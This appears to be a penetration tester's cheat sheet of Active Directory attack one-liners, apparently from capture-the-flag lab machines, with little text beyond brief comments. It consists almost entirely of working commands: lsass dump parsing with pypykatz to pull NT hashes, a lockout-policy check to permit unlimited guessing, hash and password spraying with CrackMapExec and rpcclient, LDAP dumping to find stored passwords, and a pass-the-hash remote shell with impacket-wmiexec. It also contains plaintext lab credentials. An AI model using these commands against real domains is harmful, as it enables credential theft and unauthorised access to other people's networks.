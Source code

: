 
# bloodhound one-liner to extract AD info for graphing 
/home/kali/Shared/Opt-Tools/bloodHound.py/bloodhound.py -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.129.1.165 -c All

# creating a zip file that includes bloodhound output json files from above command to use for graphing 
zip map.zip *.json

# use Pypykatz on extracted lsass.DMP file to retrieve NThashes
pypykatz lsa minidump lsass.DMP

# check the account lockout of a domain policy, if lockoutThreshold returns 0, means we can attempt an unlimited number of passwords without locking account
ldapsearch -D 'BLACKFIELD\support' -w '#00^BlackKnight' -p 389 -h 10.10.10.192 -b "dc=blackfield,dc=local" -s sub "*" | grep lockoutThreshold

# dump lsa creds then use domain spraying with CrackMapExec in order to discover a correct combination 
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u >hashes
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
crackmapexec smb 10.10.10.192 -u users -H hashes

# using impacket wmiexec to spawn a shell with hashes 
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee Administrator@10.129.1.243

# enumerate LDAP using windap binary 
/home/kali/Shared/Opt-Tools/windapSearch/windapsearch-linux-amd64 -m MODULE -d Resolute.megabank.local --dc-ip 10.129.1.152

# dump all attributes from LDAP using windap and check for passwords stored in descriptions or other fields
/home/kali/Shared/Opt-Tools/windapSearch/windapsearch-linux-amd64 -m users --full -d Resolute.megabank.local --dc-ip 10.129.1.152 | grep Password

# bash script to loop through LDAP user list and verify their credentials via rpcclient
for u in $(cat users.txt | awk -F@ '{print $1}' | awk -F: '{print $2}');
do 
rpcclient -U "$u%Welcome123!" -c "getusername;quit" 10.129.1.152 | grep Authority;
done
